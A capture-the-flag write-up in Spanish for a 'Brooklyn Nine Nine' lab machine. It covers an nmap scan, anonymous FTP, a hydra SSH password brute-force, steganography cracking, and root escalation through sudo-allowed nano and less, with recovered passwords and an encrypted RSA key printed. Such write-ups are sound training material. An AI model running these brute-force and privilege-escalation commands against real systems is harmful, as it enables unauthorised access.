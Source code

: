 # Brooklyn Nine Nine
Room bastante sencilla, el punto fuerte, tiene al menos dos vias para hacer Privesc distinat
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```
## Enum 
### FTP 
Tenemos un login Anonymous habilitado, entramos y solo podemos recuperar lo siguiente
```
-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
```
El archivo nos habla de un user con una pass debil
```
Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
Vamos a probar a tirar de bruteforcing 
```
hydra -l jake -P ~/rockyou.txt ssh://10.10.128.204
```
Y tenemos la pass 
```
[22][ssh] host: 10.10.128.204   login: jake   password: 987654321
```

### HTTP
En el fuente de la página encontramos el siguiente comentario:
```html
<!-- Have you ever heard of steganography? -->
```
Y la pagina parece tener solamente una imagen asi que descargemosla y probemos con stegcracker
```
Attacking file 'brooklyn99.jpg' with wordlist '~/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20458 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```
Veamos el archivo:
```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Con esto ya podemos entrar como holt

## Privesc
### Holt 
```
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
Easy Peasy
```
holt@brookly_nine_nine:~$: sudo /bin/nano -s /bin/sh
> /bin/sh
> [CTRL + T]
root@brookly_nine_nine:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### Jake
```
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
Easy 2.0
```
jake@brookly_nine_nine:~$ sudo less /etc/profile
> !/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

### Amy

Dentro de la carpeta de amy encontramos una clave rsa
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,8A45EF5CE95F44B523FBD6AEEAD2B9E6

//MOmD5ttJ6rTXqLiBtvOmCcXLWmgexGwQZc2sy6P9mVlh9nUD2g2gN/SwyOIOzo
pWBjAatk7qpqwbsGDstQsKErCDGCH/qjF49zG1meMNbzxFQAT5vOxGM/0oYJwD9F
BKeRcOqY0vKjiJz0Wf9ZA3+CF3xdjNvVhneGe3BE1jEX2J3+sGZ0qiNLkYn6Mw+h
jDLglBkq1qNxsGD1uKI6Hau4tOykPDphrhTiY+os7zyloEaVto53d1JUolL0W6qG
OwjIY37KP0VjwUClUivwu24yWJLZ8ISIy+PVb9AXcOSERxSFbXpuWMVurYpenc5a
TyinBbDZI31+xStteQYCb3SrnPlHQC1waAMr22RzXMSNpdJ29D7Use8CMMsBofFv
5v43IhNuNVuGik1Qoh4kg45aIW4PHpEIzHqz89hzHnTNJnbkZIri4VPDu1+tgeUB
YVXclhpOXj+AI8FeJix1OIW6lGQM48iApBq0GQn5877vxaepP2A2BU44Ips2WYvG
WxD8u9nW7muG8hEtU/Jmz1v1j5PIJm9BENkam/4/7VRbGw2RO3FUjpAHsdnzr+k5
yZ/sxWpVkIhbO3SO3/+TUTIAODZJ3fJB5fHspXCwIjWoU4ff6aW+LsDv5rpXbrxt
IqA+mpn31fwr0nmVYS/+seDA0atdFl6c+1Zav7dSoNF+hlqssxX7YXm3+LGQdQWa
gSNNSS3Cj6gyPUSs6+t0mKHzgnB/Ofah2epLzi9/K+UxKtyCjnKlYV8GSH+EZIPk
YPKGnzHet4QRrhP6YYeBfatDeblxIQZX1u6G9gGkWqFFIXgMe2wDyaoBA/cS2/am
GcS1SP0tNOZCsAMz5Q87YG44nhaSJReuUnna4fHBhti6pymWZYXvecovB/23xpNu
LDkoxmZDa/jUfO0Ua9xuhjp3usT3Nin2iAUl3inLXzpr6wQDoW1OuZbV6jitqdMv
v1Yf/Ycn5/g07aCpVAv8VyZ1J2/ilDOFuaVPQBJXKsm79fbLbXj2gTGjwKTo2JBa
EqPBMxD1X2gKxUQky9c/W1NfvZ1DqdU2+KC9o/qztuWRzO+MA/UwGKEJ93mcmeqA
6cxRy+IuzuS4/U7EegNLd6VkAJANYgXmr6Q3HlzuH8opFvh33VFejww4/w99jQfZ
mTSqSPS0QX9Sdo7U58IfDq+j13Il/aymcSWkBw6/DDwdDzl/7ZQ/X/XqE0Jjh1QY
Ro6xjI5LnDDCZjXkNu0Da/AfQG/Y0AzZUylhnH0/l4vdXPGDRffxlEQQNnGKwGk9
GSFvIHuEni9c/G7vW/wNgI9mSlycR02oCVyInHMepcLWDYyIAyFEyh/G65iGG0Z/
Y6cdOJSYTyuwVbK8469YHowvD4/7urHaSLeNmViT+URyoRLp9wV/8HaNMW5q5i6D
p0TrrdkFQiDR5X+rbfL+EgFYCwOanABkK+FzptbXB0ABte7L+PSICvZKsCn/yo6z
fxraAZ0nJejWQEYEH99o7T7uHkR+CZSD8gWPBsaP8pfPJSeKR9LzXG3MOWGc+5/p
gZBPQI5EwbUaWtnwEKqzTqT1G/+iYps8ExqUGj9lZWPnwNAEnWXiKJfTZF2lJyqz
-----END RSA PRIVATE KEY-----

```
Si la crackeamos veremos que la contraseña es jake1 , el problema es que nos pide pass y clave para entrar como amy, asi que no se de donde sacarla, sin usar el hash de shadow.txt obtenible mediante la escalada a root usando cualquier otro usuario
